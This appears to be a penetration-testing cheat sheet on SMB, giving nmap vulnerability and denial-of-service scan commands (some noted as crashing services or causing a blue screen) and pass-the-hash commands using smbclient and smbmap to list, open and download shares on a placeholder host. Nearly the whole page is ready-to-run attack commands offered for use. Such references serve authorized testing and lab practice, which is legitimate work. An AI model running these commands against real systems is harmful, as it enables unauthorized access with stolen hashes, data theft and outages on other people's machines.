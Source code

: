 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
### Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -vv --script smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 10.10.10.10
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-regsvc-dos 10.10.10.10
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-cve2009-3103 10.10.10.10
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -vv --script smb-vuln-ms10-054 10.10.10.10
```

### Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L 10.10.10.10
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H 10.10.10.10
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //10.10.10.10/<directory>
```